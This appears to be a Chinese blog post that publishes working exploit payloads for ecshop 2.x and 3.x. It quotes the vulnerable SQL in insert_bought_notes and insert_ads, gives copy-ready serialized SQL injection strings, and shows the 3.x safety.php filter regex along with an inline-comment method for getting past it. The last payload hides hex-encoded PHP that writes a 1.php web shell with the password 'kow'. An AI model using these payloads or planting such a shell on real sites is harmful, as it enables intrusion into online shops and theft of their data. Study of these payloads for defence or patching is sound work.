 ```yaml
---
id: 5000
title: ecshop 2.x 3.x SQL injection/RCE payload
date: 2018-09-07T11:32:57+00:00
author: admin
layout: post
guid: http://www.ikow.cn/?p=5000
permalink: /ecshop-payload/
categories:
  - web
tags:
  - ecshop
  - sql injection
  - rce
  - payload
---
```

首先，感谢ringk3y的分析：http://ringk3y.com/2018/08/31/ecshop2-x%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C/ 大家跟一遍代码基本上都能弄明白漏洞的原理，整个漏洞的构造还是很有意思的

然后网上公开的基本上都是2.x版本的payload，对于sql injection，除了文中提到的insert_ads，insert_bought_notes函数同样存在漏洞：
```
    $sql = 'SELECT u.user_name, og.goods_number, oi.add_time, IF(oi.order_status IN (2, 3, 4), 0, 1) AS order_status ' .
           'FROM ' . $GLOBALS['ecs']->table('order_info') . ' AS oi LEFT JOIN ' . $GLOBALS['ecs']->table('users') . ' AS u ON oi.user_id = u.user_id, ' . $GLOBALS['ecs']->table('order_goods') . ' AS og ' .
           'WHERE oi.order_id = og.order_id AND ' . time() . ' - oi.add_time < 2592000 AND og.goods_id = ' . $arr['id'] . ' ORDER BY oi.add_time DESC LIMIT 5';
```
注入点为id，这样我们构造payload可以为
```
554fcae493e564ee0dc75bdf2ebf94cabought_notes|a:2:{s:3:"num";i:1;s:2:"id";s:70:"1 procedure analyse(extractvalue(rand(),concat(0x7e,version())),1)-- -";}
```

对于3.x版本的注入，唯一和2.x的区别在于$_echash的值变成了45ea207d7a2b68c49582d2d22adf953a，我们直接替换原来payload中的值即可：
```
45ea207d7a2b68c49582d2d22adf953aads|a:2:{s:3:"num";s:72:"0,1 procedure analyse(extractvalue(rand(),concat(0x7e,version())),1)-- -";s:2:"id";i:1;}
```
或者
```
bought_notes|a:2:{s:3:"num";i:1;s:2:"id";s:70:"1 procedure analyse(extractvalue(rand(),concat(0x7e,version())),1)-- -";}
```

对于3.x版本的rce或者是你想要读取数据库里面的信息，我们需要绕过3.x中的过滤（代码在safety.php中)，
先看下3.x中的过滤：
```
'sql'=>"[^\\{\\s]{1}(\\s|\\b)+(?:select\\b|update\\b|insert(?:(\\/\\*.*?\\*\\/)|(\\s)|(\\+))+into\\b).+?(?:from\\b|set\\b)|[^\\{\\s]{1}(\\s|\\b)+(?:create|delete|drop|truncate|rename|desc)(?:(\\/\\*.*?\\*\\/)|(\\s)|(\\+))+(?:table\\b|from\\b|database\\b)|into(?:(\\/\\*.*?\\*\\/)|\\s|\\+)+(?:dump|out)file\\b|\\bsleep\\([\\s]*[\\d]+[\\s]*\\)|benchmark\\(([^\\,]*)\\,([^\\,]*)\\)|(?:declare|set|select)\\b.*@|union\\b.*(?:select|all)\\b|(?:select|update|insert|create|delete|drop|grant|truncate|rename|exec|desc|from|table|database|set|where)\\b.*(charset|ascii|bin|char|uncompress|concat|concat_ws|conv|export_set|hex|instr|left|load_file|locate|mid|sub|substring|oct|reverse|right|unhex)\\(|(?:master\\.\\.sysdatabases|msysaccessobjects|msysqueries|sysmodules|mysql\\.db|sys\\.database_name|information_schema\\.|sysobjects|sp_makewebtask|xp_cmdshell|sp_oamethod|sp_addextendedproc|sp_oacreate|xp_regread|sys\\.dbms_export_extension)"
```
基本上想从数据库中通过select查询获取数据是不可能的（欢迎大家提供绕过的思路）
但是insert_ads的sql语句给我们绕过全局过滤带来了方便：
```
$sql  = 'SELECT a.ad_id, a.position_id, a.media_type, a.ad_link, a.ad_code, a.ad_name, p.ad_width, ' .
                    'p.ad_height, p.position_style, RAND() AS rnd ' .
                'FROM ' . $GLOBALS['ecs']->table('ad') . ' AS a '.
                'LEFT JOIN ' . $GLOBALS['ecs']->table('ad_position') . ' AS p ON a.position_id = p.position_id ' .
                "WHERE enabled = 1 AND start_time <= '" . $time . "' AND end_time >= '" . $time . "' ".
                    "AND a.position_id = '" . $arr['id'] . "' " .
                'ORDER BY rnd LIMIT ' . $arr['num'];
```
因为可以注入的地方有两处，分别是id和num，这时我们利用inline comment来同时构造payload，id的地方注入'union/\*，num的地方注入\*/select+....
关于如何使用comment来帮助我们的注入语句，可以参考：http://www.sqlinjection.net/comments/
然后拦截的正则规则中并没有单独拦截union，select，这样我们2.x的payload稍微改造下就又能使用了：
```
45ea207d7a2b68c49582d2d22adf953aads|a:2:{s:3:"num";s:275:"*/select 1,0x27756e696f6e2f2a,3,4,5,6,7,8,0x7b24617364275d3b617373657274286261736536345f6465636f646528275a6d6c735a56397764585266593239756447567564484d6f4a7a4575634768774a79776e50443977614841675a585a686243676b58314250553152626132393358536b2f506963702729293b2f2f7d787878,10-- -";s:2:"id";s:8:"'union/*";}[/code]
```
执行完之后会在user.php同目录下生成1.php的菜刀马，密码是kow

